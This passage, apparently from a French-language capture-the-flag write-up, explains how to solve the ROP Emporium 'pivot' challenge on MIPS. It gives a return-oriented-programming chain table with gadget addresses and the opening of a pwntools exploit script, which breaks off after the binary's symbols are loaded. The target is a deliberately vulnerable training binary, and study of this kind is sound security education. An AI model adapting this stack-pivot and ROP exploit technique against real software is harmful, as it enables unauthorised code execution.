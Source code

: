 
La chaine de ROP à poster dans le premier message est donc construite dans l'ordre inverse de la description qui vien d'être faite.

Un dernier détail, ne pas oublier que la chaine doit commence par deux valeurs de junk consommés par le pivot, comme dit plus haut.

### La chaine de ROP d'exploitation

| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| 0xaaaaaaaa | junk | 
| leak+0x200 | junk | pour fp
| ---------- | Appel de foothold_function |
| 0x00400ca0 | lw $t9, 8($sp) ; lw $t0, 4($sp) ; jalr $t9 ; addiu $sp, $sp, 0xc | call foothold_function
| 0xdeadbeef | junk | 
| 0x00000000 | junk | pour t0 inutile 
| 0x00000e60 | foothold.plt | foothold pour t9  
| ---------- | Lecture de la GOT |
| 0x00400cb0 | lw $t9, 8($sp) ; lw $t2, 4($sp) ; lw $t1, ($t2) ; jalr $t9 ; addiu $sp, $sp, 0xc| Lecture dans t1
| 0x00000e60 | foothold.plt | foothold  
| ---------- | Chargement de t0 avec 888 |
| 0x00400ca0 | lw $t9, 8($sp) ; lw $t0, 4($sp) ; jalr $t9 ; addiu $sp, $sp, 0xc | Chargement de t0
| 0xdeadbeef | junk | 
| 0x00000378 | 888 | offset de ret2win  
| ---------- | call t0+t1 |
| 0x00400cc4 | add $t9, $t0, $t1 ; jalr $t9 ; addiu $sp, $sp, 4| chargé dans le t9 du gadget précédent

## Exploitation

### Le script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time


# ROPemporium pivot MIPSEL

# Set up pwntools for the correct architecture
elf = context.binary = ELF('pivot_mipsel')
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

# ret : 284
gs='''
b *pwnme+372
c
'''

# References ELF du programme
main=elf.symbols['main']
useless_func=elf.symbols['uselessFunction']
got_foothold=elf.got['foothold_function']
plt_foothold=elf.plt['foothold_function']
puts=elf.symbols['puts']
pwnme=elf.symbols['pwnme']
data = elf.get_section_by_name('.data').header['sh_addr']
```
